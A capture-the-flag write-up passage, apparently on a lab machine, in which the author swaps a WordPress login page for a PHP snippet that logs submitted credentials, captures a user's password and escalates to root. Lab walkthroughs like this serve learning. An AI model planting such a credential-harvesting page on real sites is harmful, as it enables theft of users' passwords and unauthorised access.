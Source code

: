 So Cliff is telling us two things: he's logging in frequently and there's a restore of the site happening as well.

If we look in the webroot we can see that the timestamps on `dev_wiki` and its contents are changing every five minutes. My first thought here was maybe some wildcard injection (see Joker writeup), but after thinking on it, nothing really seemed to be viable even if there were wildcards in the restore script being ran. So it seems that trying to hijack the restore job is probably a dead end.

However we do know that Cliff is logging in frequently. This would mean he's hitting the `wp-login.php` file frequently. What we can do is replace the contents of this file with some PHP code to catch his request and see what login and password he is submitting.

We can do this from some code I found on Stack Overflow.

```
florian@aragog:/var/www/html$ cat dev_wiki/wp-login.php 
<?php
$req_dump = print_r($_REQUEST, TRUE);
$fp = fopen('/tmp/request.log', 'a');
fwrite($fp, $req_dump);
fclose($fp);
?>

```

Now that our page is setup, we wait for our log file to be written. 

```
florian@aragog:/var/www/html$ cat /tmp/request.log 
Array
(
    [pwd] => !KRgYs(JFO!&MTr)lf
    [wp-submit] => Log In
    [testcookie] => 1
    [log] => Administrator
    [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
)

```

We can see that we now have Cliff's password!

Let's try to `su` to cliff.

```
florian@aragog:/var/www/html$ su cliff
Password: 
su: Authentication failure
```

Hmm, well let's try to `su` to root

```
florian@aragog:/var/www/html$ su root
Password: 
root@aragog:/var/www/html#
```

Success! `root.txt` is ours!